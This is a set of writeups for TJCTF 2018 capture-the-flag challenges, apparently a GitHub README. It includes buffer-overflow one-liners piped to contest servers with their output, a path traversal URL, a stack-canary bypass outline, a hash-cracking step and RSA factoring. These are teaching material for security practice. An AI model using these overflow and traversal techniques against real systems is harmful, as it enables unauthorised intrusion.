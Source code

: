 # TJCTF_2018

Writeups for tjctf 2018

## Binary Exploitation

### Math Whiz

*The neighborhood math whiz won't stop bragging about the [registration form](The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!) [(source)](https://static.tjctf.org/b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c) he coded. Show him who's boss!*

`nc problem1.tjctf.org 8001`

There's a pretty blatent buffer overflow vulnerability that exists because the fgets command is being passed the wrong parameter. Just injecting enough lines of A's via python gets the job done.

```
python -c "print ('A'*100+'\n')*10" | nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: Username: Password: Recovery Pin: Email: Address: Biography: Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```

### Tilted Troop

*Can you help us defeat the monster? [binary](https://static.tjctf.org/ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) [(source)](https://static.tjctf.org/48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c)*

`nc problem1.tjctf.org 8002`

This is another buffer overflow problem. Indexed incorrectly you can input 9 characters. The ascii values of the last character's name sum together to make up the strength of all the characters because of this. Just inject an ascii string with the proper sum for the 9th character.

```
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab# (python -c "print 'A\n'*8+'A aaam\n'+'F\n'"; cat) | nc problem1.tjctf.org 8002
Commands:
 A <name> - Add a team member
 F - Fight the monster
 Q - Quit
Wow! Your team is strong! Here, take this flag:
tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}
Try again
^C
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab#
```

### Future Canary Lab
*The world renowned Future Canary Lab is looking for a new lab member. Good luck with your [interview](https://static.tjctf.org/c962e5ec36fc4161a93c042e1837cf0fe0a35a92469f37181f827d9ee8a54cca_interview) [(source)](https://static.tjctf.org/2e1b38dc00bfb021e2deb45219f4c44b371dc1ae98b0fb2ee2d9905032e310a3_interview.c!)*

`nc problem1.tjctf.org 8000`

This one is a stack exploit via buffer overflow that requires leaving a stack canary intact. They use C's default random library with a seed of the time in seconds. Just write a C script to generate the values locally and then inject the overflow, canary, and payload to get the calculation to evaluate to 0xdeadbeef in the code via a simple python script using os.popen and pwntools' socks client.

### Secure Secrets

*I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?*

`nc problem1.tjctf.org 8008`

[Video Writeup](https://youtu.be/NbDZW0HQmf4)

## Web

### Blank
*Someone told me there was a flag on this [site](https://blank.tjctf.org/), so why is it that I can only see blank?*

The flag is a comment in the webpage source html code. Ctrl-U in firefox.

### Cookie Monster
*The [Cookie Monster](https://cookie_monster.tjctf.org/) is not a fan of horses*

The flag is a webpage cookie. Just go into the debug console (F-12) and find it there with the rest of the webpage cookies.

### Central Savings Account
*I seem to have forgotten the password for my savings account. What am I gonna do?*

The flag's md5 has is stored client side in the webpage js. Just throw it into hashkiller. The flag is "avalon".

### Moar Horses
*The [Horse](https://moar_horse.tjctf.org/) is back!*

This problem must seriously have been a joke. Just keep scrolling via javascript. Eventually you'll find a response containing the flag in the console.

```javascript
$(window).scroll(function () { console.log( $('.jscroll-next-parent').html() ); })
```

```
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a>
```

### Programmable Hyperlinked Pasta

*Check out my new site! PHP is so cool!*

[programmable_hyperlinked_pasta.tjctf.org](programmable_hyperlinked_pasta.tjctf.org)

`view-source:https://programmable_hyperlinked_pasta.tjctf.org/?lang=../flag.txt`

## Misc.

### Trippy
*[trippy](https://static.tjctf.org/be37fef78cfd6c7deda71154f567e6d0cfefbda1f80698c064bab469d3a54c58_trippy.gif)*

Run strings on the file and grep for "tjctf"

```
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy# strings trippy.gif | grep tjctf
tjctf{w0w}
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy#
```

### Mirror Mirror

*If you look closely, you can see a reflection.*

`nc problem1.tjctf.org 8004`

The problem leaves us with a restricted python terminal and a hint regarding reflection, a way to get possible attributes of object and/or functions at runtime in many languages.

[Video Writeup](todo)

## Forensics

### Weird Logo

*This company's logo stands in contrast of those of other leading edge tech companies with its poor design*

![Source](https://static.tjctf.org/c9a03d15f235087145579bd06f3f736a5546539254fbde100b8bf4d990bb8d8f_logo.png)

Solution: There are 2 colors of blue used in the image that are very close to one another. Use a bucket tool in paint with 100% selectivity to get the flag.

![](https://github.com/MeadeRobert/TJCTF_2018/blob/master/weird_logo/weird_logo_edited.png)

### Weird Audio Circuit

*In my electronics class, we made this cool circuit for encoding audio. Check it out!*

[Audio](https://static.tjctf.org/c34e48ab19254a7fe95fff369d8dca5272f2a46f92e6c4ffef50d9b4de5e9cbc_problem.wav)

[Video Writeup](https://youtu.be/ZLO1LipkSFc)

The file contains an AM modulated audio signal with a carrier at 10Khz. Demodulate with the following nyquist script in audacity, and transcribe the flag starting at ~36 seconds in.

[https://forum.audacityteam.org/viewtopic.php?t=95331](https://forum.audacityteam.org/viewtopic.php?t=95331)
`(lowpass8 (mult *track* (hzosc 10000)) 10000)`

### Ssleepy

*I found this super suspicious [transmission](https://static.tjctf.org/99870da89e552d13905dbff3fe0543ca336c4c425cb723e3f4b6c0e91a6e23e7_ssleepy.pcapng) lying around on the floor. What could be in it?*

Extract .7z file containing .pem file for RSA private key (for SSL traffic decryption) from FTP traffic in wireshark. Then, extract the flag.jpg file from the SSL traffic responding to the GET request for the flag image.

[Video Writeup](https://youtu.be/1uiYoRnXt0M)

## Cryptography

### Classic

*My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](https://static.tjctf.org/6bd24f59c2861c8f62358d17d677812bc079876f6951c22d13f396bbf1059cca_rsa.txt)*

The modulus is easily factored by [Fermat's Algorithm](https://en.wikipedia.org/wiki/Fermat%27s_factorization_method). Use the factorization to generate the private key and decrypt the ciphertext.

### Affine

Didn't solve this one during the competition, but I'm still pretty convinced its a linearly padded hastad broadcast attack where the padding is the sha1 hash of the modulus as a string.




